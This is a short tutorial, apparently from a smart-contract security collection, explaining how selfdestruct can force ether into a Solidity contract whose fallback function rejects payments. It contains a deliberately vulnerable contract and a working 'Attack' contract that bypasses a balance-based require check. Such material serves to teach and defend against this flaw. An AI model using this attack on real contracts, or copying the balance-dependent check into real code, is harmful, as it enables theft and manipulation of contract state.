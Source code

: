 ## Forcing ether to a contract

The special case here, is that if the receiving address is a contract, its fallback function does not get executed.

This means that if a contract’s function has a conditional statement that depends on that contract’s balance being below a certain amount, that statement can be potentially bypassed:

```solidity
pragma solidity 0.4.18;

contract ForceEther {

  bool youWin = false;

  function onlyNonZeroBalance() {
      require(this.balance > 0); 
      youWin = true;
  }
  // throw if any ether is received
  function() payable {
    revert();
  }
         
}
```

Due to the throwing fallback function, normally the contract cannot receive ether. However, if a contract selfdestructs with this contract as a target, the fallback function does not get called. As a result this.balance becomes greater than 0, and thus the attacker can bypass the require statement in onlyNonZeroBalance

## Hack the Contract

```solidity

pragma solidity 0.4.18;
contract Attack {
    ForceEther forceether;
    
    function Attack(ForceEther _forceether) public {
        forceether = ForceEther(_forceether);
    }

    function attack() public {
        selfdestruct(forceether);
    }
    function getbal() external view returns(uint) {
        return address(this).balance;
    }
    function() payable public {
  }
}
```

## How thiss exploit work?
This Exploit use selfdestruct. Selfdestruct Kill the contract and send the all the ether to the caller contract wheather the caller have paybale function or not
